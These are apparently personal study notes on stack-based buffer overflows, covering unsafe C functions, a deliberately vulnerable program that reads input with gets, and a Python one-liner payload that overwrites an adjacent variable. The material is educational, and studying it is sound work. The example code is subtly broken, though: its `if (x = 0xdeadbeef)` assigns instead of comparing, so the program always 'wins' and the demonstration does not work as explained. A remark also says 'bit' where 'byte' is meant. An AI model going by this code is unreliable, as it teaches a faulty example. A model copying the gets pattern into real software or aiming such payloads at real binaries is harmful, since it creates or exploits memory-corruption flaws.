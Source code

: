 ```yaml
---
layout: notes
title: Stack Exploitation Notes
permalink: /notes/binexp/stack/
---
```


# Stack Based Buffer Overflow

## Memory Corruption
Modifying memory of a binary in a way that was not intended.

### Buffer Overflow
A buffer overflow occurs when data is written beyond the allocated memory space, thus corrupting adjacent memory. 
#### Common Causes:
- Unsafe functions: These functions do not perform any bounds checking when writing to a fixed-size buffer. These functions include:
	- strcpy
	- gets
	- sprintf

#### Impact:
- Arbitrary Code Execution (if return address is overwritten)
- Denial of service.
- Data corruption

### Example

```c
int main() {
	int x;
	char buffer[32];
	gets(buffer);
	if (x = 0xdeadbeef) {
		puts("You win.");
	} else {
		puts("You lose.");
	}	
	return 0;
}
```

Stack before gets function

![Stack Before Overflow](assets/images/basic-bof.jpg)


if we enter more than 32 bytes the x variable will be overwritten. So we have to enter 32 bytes that will fill the buffer and then another 4 `0xdeadbeef` to overwrite x


Stack after the gets function

![](assets/images/basic-bof1.jpg)

`0xdeadbeef must be in least significant bit`

> exploit :  
```sh
python -c 'print("A"*32+"\xef\xbe\xad\xde")' | ./vuln
```

